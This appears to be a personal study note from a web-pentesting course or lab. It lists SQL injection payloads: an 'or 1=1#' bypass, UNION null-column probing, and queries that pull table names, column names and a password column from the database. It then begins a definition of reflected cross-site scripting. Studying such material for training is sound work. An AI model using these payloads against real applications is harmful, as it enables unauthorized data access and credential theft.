 #### Logical Operators
`jeremy' or 1=1#`
`or 1=1` -->  returns always true
`#` -->  end sql queries   (for mysql you can also use `-- -`)
       => everything after this -->  will be ignored

#### UNION
we can use it to selects other information or info from another table
>[!warning] Constraint
>There is a constraint to use UNION:
> we can only select -->  the same n° of columns as in the original query

=>
`jeremy' union select null#`
`jeremy' union select null,null#`
`jeremy' union select null,null,null#`
if you find something:
=>
`jeremy' union select null,null,version()#` -->  to read the db version

to <span style="color:#00b050">find all the tables </span>that exist in the db:
`jeremy' union select null,null,table_name from information_schema.tables#`

<span style="color:#00b050">get all the columns name</span> that exist in the db:
`jeremy' union select null,null,column_name from information_schema.columns#`

get an <span style="color:#00b050">user password</span>:
`jeremy' union select null,null,password from injection0x01#`

>[!warning] Constraint
>sometimes if you use something like this:
>`jeremy' union select null,null,...`
>
>and the values in the null columns are not a string => you will get an error
>=>
>try to use different things:
>for example:
>- null(int)
>- 1

#### Tool
[[cheat#sqlmap|sqlmap]]

### XSS
Cross Site Scripting (XSS) -->  let us execute JavaScript in a victim browser
3 types:
- <span style="color:#00b050">reflected</span>:
  the <span style="color:#6666ff">script</span> that you're trying to inject -->  <span style="color:#6666ff">comes from the current HTTP req</span>
  =>
  - you send a request
  - you receive a response
  =>  the malicious script is included -->  in the response
  